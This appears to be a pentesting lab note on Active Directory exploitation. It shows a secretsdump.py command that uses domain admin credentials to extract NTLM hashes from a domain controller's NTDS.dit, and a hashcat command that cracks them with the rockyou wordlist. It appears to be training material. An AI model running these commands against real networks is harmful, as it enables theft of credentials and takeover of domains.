 ![[Pasted image 20240323122153.png]]

# Exploitation

Using *secretsdump.py* we can dump the *NTDS.dit* database with our DA account:
```bash
secretsdump.py MARVEL.local/hawkeye:'Password1@'@10.0.0.18 -just-dc-ntlm
```
Args:
`-just-dc-ntlm`: Extract only NTDS.DIT data (NTLM hashes only)

Output:
![[Pasted image 20240323122812.png]]

Crack the hashes with *hashcat*:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

>[!Note]
>Don't try to crack computer passwords, just crack user password!
